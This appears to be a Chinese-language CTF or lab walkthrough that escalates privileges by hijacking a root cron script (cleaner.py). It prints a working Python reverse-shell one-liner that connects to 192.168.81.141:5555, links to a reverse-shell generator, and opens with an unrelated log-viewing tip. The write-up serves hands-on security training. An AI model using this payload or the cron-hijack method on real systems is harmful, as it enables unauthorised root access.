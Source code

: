 ```

 

4.应用场景三：日志内容特别多，打印在屏幕上不方便查看
    (1)使用more和less命令,

​           如： cat -n test.log |grep "debug" |more     这样就分页打印了,通过点击空格键翻页

​    (2)使用 >xxx.txt 将其保存到文件中,到时可以拉下这个文件分析

​            如：cat -n test.log |grep "debug"  >debug.txt
```

寻找脚本：cleaner.py

```
find -name cleaner.py  2>/dev/null   #忽略掉错误提示信息
```

![image-20220304221500720](https://gitee.com/xxb667/img/raw/master/img/image-20220304221500720.png)



查看文件：

```
cat /lib/log/cleaner.py
```

![image-20220304223622510](https://gitee.com/xxb667/img/raw/master/img/image-20220304223622510.png)

里面的内容

```python
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
```

注意： 

- 这个并不是把我们踢出的脚本
- 功能只是删除/tmp 目录里面的文件
- 计划任务一般情况是root权限运行
- 不过我们可以借助它反弹root权限的shell
- 就是把里面的内容修改为我们的反弹shell

### 3.1 python建立反弹shell脚本

各种类型的反弹shell在线生成https://shell.nctry.com/

```
'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.81.141",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
